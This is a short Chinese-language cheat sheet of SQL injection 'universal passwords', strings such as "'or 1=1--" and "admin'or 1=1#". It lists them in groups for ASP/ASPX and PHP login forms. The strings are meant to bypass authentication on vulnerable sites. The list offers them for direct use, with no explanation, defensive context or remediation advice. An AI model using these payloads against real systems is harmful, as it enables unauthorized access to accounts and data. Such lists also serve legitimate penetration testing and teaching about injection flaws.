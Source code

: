 ### 万能密码是基于sql语句的查询漏洞

#### asp aspx万能密码
1："or "a"="a
2：'.).or.('.a.'='.a
3：or 1=1--
4：'or 1=1--
5：a'or' 1=1--
6："or 1=1--
7：'or.'a.'='a
8："or"="a'='a
9：'or''='
10：'or'='or'
admin'or 1=1#

#### PHP万能密码
admin'/*
密码*/'


'or 1=1/*
"or "a"="a
"or 1=1--
"or"="
"or"="a'='a
"or1=1--
"or=or"
''or'='or'
') or ('a'='a
'.).or.('.a.'='.a
'or 1=1
'or 1=1--
'or 1=1/*
'or"="a'='a
'or' '1'='1'
'or''='
'or''=''or''='
'or'='1'
'or'='or'
'or.'a.'='a
'or1=1--
1'or'1'='1
a'or' 1=1--
a'or'1=1--
or 'a'='a'
or 1=1--
or1=1--
